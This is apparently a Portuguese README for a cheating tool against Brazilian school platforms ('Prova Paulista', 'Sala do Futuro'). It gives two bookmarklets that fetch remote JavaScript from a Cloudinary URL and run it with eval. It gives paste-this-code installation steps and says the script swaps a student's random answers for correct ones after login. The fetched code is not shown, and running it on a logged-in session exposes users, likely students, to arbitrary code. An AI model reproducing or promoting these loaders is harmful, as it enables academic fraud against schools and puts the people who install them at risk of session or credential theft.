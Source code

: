 # 🚀 HCK - PROVA PAULISTA 

### HCK - PROVA PAULISTA:
(Bookmarklet)
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745012111/saladofuturo.js").then(t=>t.text()).then(eval);
```
## HCK - TAREFAS:
(Bookmarklet)
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745882260/saladofuturov2.js").then(t=>t.text()).then(eval);
```

## HCK - TAREFAS:
(Tampermonkey)

- Em breve...

---

## TUTORIAL DE INSTALAÇÃO:

## **Método Desktop**
1. Clique com o botão direito do mouse na **barra de favoritos** do navegador.
2. Selecione a opção **"Adicionar página"** ou **"Adicionar favorito"**.
3. Preencha os campos:
   - **Nome:** Digite qualquer título para o favorito.
   - **URL/Endereço:** Cole o código logo acima.

## **Método Mobile**
1. Clique nos **três pontos verticais** (☰) no canto superior direito do navegador.
2. Selecione o ícone de **estrela** (Adicionar aos favoritos).
3. Na janela que aparecer:
   - **Nome:** Digite qualquer título para o favorito.
   - **URL/Endereço:** Cole o código acima.

---
### COMO USAR:

1. **Execute o bookmarklet** antes de efetuar o **Login no Sala do Futuro.**

2. Vá até a **tarefa**, responda **todas questões aleatoriamente** e envie.

3. O bookmarklet fará o resto, ele irá inserir no **todas às respostas corretas** no lugar.

*Obs: A questão do tempo depende de quanto tempo você permanecer na página da tarefa antes de enviá-la.*

---
## [Discord: hackermoon](https://discord.gg/DXv46kUq)

## Créditos:

- [@inallep](https://github.com/inacallep)

- [@crackingnlearn](https://github.com/crackingnlearn)

- [@miturufu](https://github.com/Miturufu)
